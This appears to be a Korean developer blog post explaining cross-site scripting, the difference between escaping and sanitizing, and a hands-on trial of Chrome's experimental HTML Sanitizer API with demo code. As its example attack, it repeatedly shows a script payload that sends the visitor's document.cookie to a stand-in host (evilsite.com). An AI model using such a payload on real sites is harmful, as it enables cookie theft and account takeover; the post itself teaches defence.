 ```yaml
---
title: HTML Sanitizer API 사용해보기
description: 이제 Sanitizer도 표준으로, 플러그인 없이!
layout: blogpost
author: 이종우
email: jongwoo@studia.blue
date: 2022/01/04
categories: web
---
```


# Sanitizing이란?

예를 들어, 제가 게시판이 있는 웹사이트를 운영한다고 합시다. 회원은 로그인을 해야 글을 올릴 수 있고, '로그인 유지' 기능을 통해 `OAuth` 토큰은 브라우저에 쿠키로 저장되는, 전형적인 온라인 게시판의 예입니다. (사실 일반적인 게시판보다는 훨씬 보안이 약한 사이트이기는 합니다.)

어느 날, 해커가 웹사이트에 접속해 다음과 같은 글을 올립니다.
```plaintext
<script>window.open("http://evilsite.com/cookies.php?cookie="+EncodeURIComponent(document.cookie));</script>
```
만약 방문자가 이 게시글을 클릭한다면 스크립트가 실행되고, 해커가 방문자의 쿠키를 빼낼 수 있을 것입니다. 게다가 `OAuth` 인증 토큰이 쿠키에 저장되어 있으면, 해커는 이 토큰으로 그 사람의 계정에 로그인할 수 있게 됩니다!

이러한 형태의 공격을 [XSS](https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8C%85) (Cross-Site Scripting)이라고 부릅니다. 이를 방지하기 위한 방법에는 여러 가지가 있는데, 대표적으로 **escape**와 **sanitize**가 있습니다.

## Escape vs Sanitize

위의 예시를 통해 알아보죠.

위 예시의 XSS 코드를 `escape`하면 이렇게 됩니다.
```plaintext
&lt;script&gt;window.open(&quot;http://evilsite.com/cookies.php?cookie=&quot;+EncodeURIComponent(document.cookie));&lt;/script&gt;
```
괄호가 모두 `lt;`과 `gt;`으로 대체되어, 더 이상 HTML의 기능을 할 수 없게 되었습니다. 클라이언트 측에서는 코드가 텍스트로 표시될 것입니다.

반면, 위 코드를 `sanitize`하면 이렇게 됩니다.
```

```
Sanitizer (여기서는 DOMPurify를 실행한 결과입니다)가 `<script>` 태그를 인식하고, 아예 삭제해 버렸습니다. XSS의 기법은 여러 가지가 있기 때문에 `javascript:`으로 시작하는 URL, `onload`와 같은 event listener 등 고려할 점이 많습니다. 보통은 [DOMPurify](https://github.com/cure53/DOMPurify)와 같은 라이브러리를 사용하는 것이 편하고 안전합니다.

# HTML Sanitizing API란?

클라이언트 측에서 (당연한 얘기지만, 서버 측에서도 다시 sanitize 해줘야 됩니다! 해커가 콘솔에서 POST 요청을 직접 보낼 수도 있으니까요!) Sanitize를 할 때는 라이브러리를 사용하는 것이 일반적입니다. 그러나 이렇게 되면 로딩이 더 길어지고 사이트가 더 무거워진다는 단점이 있습니다.

이를 극복하고자 Sanitizer 기능이 브라우저에 기본적으로 탑재된 `Sanitizing API`가 공개되었습니다! 아직은 정식 지원은 아니지만, 궁금하니 한 번 사용해 보도록 하겠습니다.

## 1. 브라우저 실험적 기능 활성화하기

아직 본 기능은 정식으로 지원되는 것이 아닌, **실험적 기능** 입니다. 실제 개발에 사용하시면 안돼요!

![Sanitizer Flag](/assets/img/sanitizer-flag.png)

우선, chrome://flags 주소로 이동하여 검색창에 'Sanitizer API'라고 입력합니다. 이 항목의 드롭다운에서 'Default'를 'Enabled'로 바꾸고 안내에 따라 브라우저를 relaunch 하면 실험적 기능을 사용해 볼 수 있습니다. 필자는 Chrome Dev 기준으로 본 포스트를 작성했습니다.

## 2. 실험적 기능 사용해 보기!

<div style="width: 100%; border: 2px solid #ddd; padding: 10px;">
<p style="font-family: Arial, sans-serif; font-size: 17px; margin: 10px 0 5px 0;">Insert dirty code below:</p>
<textarea style="width: 100%; height: 150px; border: 2px solid #ddd; border-radius: 0; outline: none;" id="dirty"></textarea>

<p style="font-family: Arial, sans-serif; font-size: 17px; margin: 10px 0 5px 0;">Sanitized output:</p>
<div style="width: 100%; height: 150px; border: 2px solid #ddd; border-radius: 0; outline: none;" id="clean"></div>

<script>
var dirty = document.getElementById("dirty");
var clean = document.getElementById("clean");

dirty.addEventListener('input', function() {
  if(typeof Sanitizer != 'undefined') {
    var dirty_content = dirty.value;
    clean.setHTML(dirty_content, new Sanitizer())
  } else {
    alert("Sanitizer을 사용할 수 없음. 실험적 기능을 설정해 주세요.")
  }
})
</script>
</div>

그냥 바로 위 칸에다 입력해 보시면 됩니다.

```plaintext
input:  xss <script>window.open("http://evilsite.com/cookies.php?cookie="+EncodeURIComponent(document.cookie));</script> test
output: xss  test
```
잘 동작하네요!

## 3. 소스코드

```html
<textarea id="dirty"></textarea>
<div id="clean"></div>
```

```js
var dirty = document.getElementById("dirty");
var clean = document.getElementById("clean");

dirty.addEventListener('input', function() {
  if(typeof Sanitizer != 'undefined') {
    var dirty_content = dirty.value;
    clean.setHTML(dirty_content, new Sanitizer())
  } else {
    alert("Sanitizer을 사용할 수 없음. 실험적 기능을 설정해 주세요.")
  }
})
```
코드는 이게 다입니다!

새로운 Sanitizer API에서는 다른 라이브러리와 달리 string to string 변환을 하지 않습니다. 대신 `setHTML`을 이용해 변환을 하도록 되어 있습니다. 그 이유는 같은 HTML이라도 들어가는 요소에 따라 sanitizing의 결과가 달라지기 때문입니다.

## 4. 지원 범위

![Sanitizer API on caniuse.com](/assets/img/sanitizer-caniuse.png)

온통 빨간색이네요.

지금은 개발에 써서는 안되는 기능입니다.